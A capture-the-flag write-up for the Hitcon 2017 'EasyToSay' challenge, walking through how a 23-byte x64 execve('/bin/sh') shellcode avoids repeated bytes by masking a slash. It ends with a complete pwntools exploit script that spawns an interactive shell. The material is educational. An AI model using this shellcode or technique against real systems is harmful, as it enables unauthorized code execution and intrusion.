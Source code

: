 ```yaml
---
title: "EasyToSay | Hitcon 2017"
categories: ["pwn"]
tags: ["shellcode"]
points: 144
solves: 139
---
```


This is a writeup explaining how I wrote a shellcode payload bypassing a size limit and avoiding repeated bytes.

## Overview
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.


## Solution

Here I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode
First lets try a basic x64 shellcode and see if there are any repeating bytes. That looks something like:
1. put '/bin/sh\x00' on the stack
2. put that stack address in `rdi` (filename)
3. make `rsi` (argv) equal 0
4. make `rdx` (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:

```nasm
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's
As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.

```nasm
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:

```nasm
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

Closer! Now we only have to somehow remove the extra `/`.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.

```nasm
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!


## Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated" % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```